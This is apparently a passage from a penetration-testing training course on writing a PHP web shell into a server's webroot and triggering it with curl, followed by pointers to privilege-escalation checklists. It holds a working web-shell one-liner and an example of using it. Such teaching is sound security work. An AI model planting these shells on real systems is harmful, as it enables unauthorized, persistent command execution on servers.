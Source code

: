 However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the  web. So, the first step is to identify where the webroot is. The  following are the default webroots for common web servers:

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\    |
| `XAMPP`    | C:\xampp\htdocs\       |

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a `PHP` shell with the following command:

Code: bash

```bash
echo "<?PHP system(\$_GET['cmd']);?>" > /var/www/html/shell.php
```

#### Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command.

Or using **`curl`**:

```shell-session
Bonzo@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we can keep changing the command to get its output. A  great benefit of a web shell is that it would bypass any firewall  restriction in place, as it will not open a new connection on a port but run on the web port on `80` or `443`, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place,  and we can access it and get command execution without exploiting the  remote host again.

On the other hand, a web shell is not as interactive as reverse and  bind shells are since we have to keep requesting a different URL to  execute our commands. 



## Privilege Escalation

### PrivEsc Checklists

Once we gain initial access to a box, we want to thoroughly enumerate the box to find any potential vulnerabilities we can exploit to achieve a higher privilege level. We can find many checklists and cheat sheets  online that have a collection of checks we can run and the commands to  run these checks. One excellent resource is [HackTricks](https://book.hacktricks.xyz), which has an excellent checklist for both [Linux](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist) and [Windows](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation) local privilege escalation. Another excellent repository is [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), which also has checklists for both [Linux](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Privilege Escalation.md) and [Windows](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Privilege Escalation.md). We must start experimenting with various commands and techniques and  get familiar with them to understand multiple weaknesses that can lead  to escalating our privileges.


[1]: https://en.wikipedia.org/wiki/Tmux	"tmux on wikipedia"